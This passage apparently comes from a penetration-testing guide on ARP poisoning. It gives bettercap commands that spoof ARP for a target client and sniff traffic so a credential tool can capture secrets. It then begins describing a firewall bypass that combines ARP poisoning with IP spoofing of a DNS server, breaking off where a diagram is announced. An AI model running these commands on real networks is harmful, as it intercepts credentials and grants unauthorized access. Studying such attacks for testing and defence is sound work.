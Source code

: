 
=== Dumping network secrets

Start [PCredz](https://github.com/lgandx/PCredz) or Wireshark then start the poisoning attack


```bash
# quick recon of the network
net.probe on

# set the ARP poisoning
set arp.spoof.targets $client_ip
set arp.spoof.internal true
set arp.spoof.fullduplex true

# control logging and verbosity
events.ignore endpoint
events.ignore net.sniff.mdns

# start the modules
arp.spoof on
net.sniff on
```


:::


::: details Alternative using `arpspoof` tool - Firewall Bypass scenario
#### Combining ARP poisoning and IP spoofing to bypass firewall

The goal of this attack is to bypass the firewall protecting a sensitive network and be able the access an asset there. 

To do so, the attacker's machine sits as MITM between the DNS server (referred to as the target of the ARP Spoofing, which is authorized to communicate with the sensitive asset in the protected network), and the firewall controlling the access to the protected network.\
In addition to this, the attacker spoofs the IP address of the DNS server when communicating with the sensitive asset and tags its traffic through dynamic ports to be able to track it and handle the response to its spoofed requests. 

Below is a diagram to visualize the attack:
